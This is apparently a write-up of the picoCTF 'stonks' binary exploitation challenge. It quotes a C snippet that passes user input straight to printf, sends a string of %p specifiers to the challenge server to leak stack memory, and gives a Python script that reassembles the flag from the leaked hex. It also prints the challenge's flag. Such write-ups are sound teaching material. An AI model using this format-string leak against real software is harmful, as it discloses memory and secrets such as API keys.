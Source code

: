 # stonks
## Overview
Points: 20  
Category: Binary Exploitation 

## Description
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](./vuln.c)  
`nc mercury.picoctf.net 33411`

## Hints

1. Okay, maybe I'd believe you if you find my API key.

## Solution

In the Source code, if you see carefully on `buy_stock` function, we can see this code snippet.

```c
char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);
```

what is this actually? It's called a format string vulnerabilities, what we input in that scanf will be returned to us, so If you input a specifier like `%s`, `%d`, `%x`, `%p`or `%n` it will give us a return value of the specifier.

In Binary exploitation, a format string vulnerability usually use either `%p` or `%x` to leak some address, judjing by the source code, our fleak is **UNIQUE** so each player will have a different flag.

Knowing all this information, it's time to leak the first 50 stack values using `%p` and I use python3 to print 50 of that specifier.

```tex
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Buying stonks with token:
0x844d3d00x804b0000x80489c30xf7f9cd800xffffffff0x10x844b1600xf7faa1100xf7f9cdc7(nil)0x844c1800x10x844d3b00x844d3d00x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x633432610x366134310xffcd007d0xf7fd7af80xf7faa4400xd7c723000x1(nil)0xf7e39ce90xf7fab0c00xf7f9c5c00xf7f9c0000xffcdcc480xf7e2a68d0xf7f9c5c00x8048eca0xffcdcc54(nil)0xf7fbef090x804b0000xf7f9c0000xf7f9ce200xffcdcc880xf7fc4d500xf7f9d8900xd7c723000xf7f9c0000x804b0000xffcdcc88
Portfolio as of Mon Apr 10 06:37:44 UTC 2023


1 shares of E
1 shares of TW
177 shares of LP
61 shares of SXEX
20 shares of JD
209 shares of MBUY
138 shares of AIQJ
Goodbye!
```

It's a bunch of hex, don't worry cyber chef can tell us what they mean or you can just search for `7d` as it's equal to `}`

We found this particular string to be interesing because it has `7d` at the end and a `6f636970` or `ocip`.

```6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x633432610x366134317d```

If you translate this into string, you'll found this

```ocip{FTC0l_I4_t5m_ll0m_y_y3nc42a6a41}```

See some pattern here? The flag format will always be `picoCTF{.*}` and if you see the result there, it looks like they swap the print every 4 character. What we can do is, we can separate this hex every 4 character and then print it backward or do it manual...

```
ocip -> pico
{FTC -> CTF{
0l_I -> I_l0
4_t5 -> 5t_4
m_ll -> ll_m
0m_y -> y_m0
_y3n -> n3y_
c42a -> a24c
6a41 -> 14a6
} -> }
```

I write a simple [script](./flag.py) to do this using `[::-1]` and `unhexlify`
```python
from binascii import unhexlify

flag = b"".join(
    [
        unhexlify("6f636970")[::-1],
        unhexlify("7b465443")[::-1],
        unhexlify("306c5f49")[::-1],
        unhexlify("345f7435")[::-1],
        unhexlify("6d5f6c6c")[::-1],
        unhexlify("306d5f79")[::-1],
        unhexlify("5f79336e")[::-1],
        unhexlify("63343261")[::-1],
        unhexlify("36613431")[::-1],
        unhexlify("007d")[::-1],
    ]
).decode()

print(flag)
```

## Flag

```picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}```   
<br>
**NOTE: Every Player has a different flag!**